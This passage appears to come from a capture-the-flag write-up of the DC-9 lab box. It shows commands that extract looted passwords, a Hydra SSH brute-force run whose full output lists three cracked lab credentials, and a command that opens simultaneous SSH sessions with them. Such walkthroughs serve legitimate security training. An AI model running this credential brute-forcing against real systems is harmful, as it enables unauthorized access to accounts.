 ```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ cat loot/user_password.lst | awk -F ':' '{print $2}' > passwords.lst

┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ echo 'transorbital1' >> passwords.lst
```

No new results found

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ hydra -e nsr -L users.lst -P passwords.lst ssh://DC-9 -t 16
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-04 13:28:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 396 login tries (l:18/p:22), ~25 tries per task
[DATA] attacking ssh://DC-9:22/
[STATUS] 195.00 tries/min, 195 tries in 00:01h, 204 to do in 00:02h, 13 active
[22][ssh] host: DC-9   login: chandlerb   password: UrAG0D!
[22][ssh] host: DC-9   login: joeyt   password: Passw0rd
[22][ssh] host: DC-9   login: janitor   password: Ilovepeepee
[STATUS] 193.50 tries/min, 387 tries in 00:02h, 12 to do in 00:01h, 13 active
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-04 13:30:38
```


### Tmux pane sync

I will use **[tmux-xpanes](https://github.com/greymd/tmux-xpanes)** to synchronize input for all 3 users in SSH session

```bash
xpanes -e 'cssh joeyt@DC-9 Passw0rd' 'cssh chandlerb@DC-9 UrAG0D!' 'cssh janitor@DC-9 Ilovepeepee'
```

![](/assets/obsidian/9e06f654120e05ff4d33d35bf80d44e0.png)
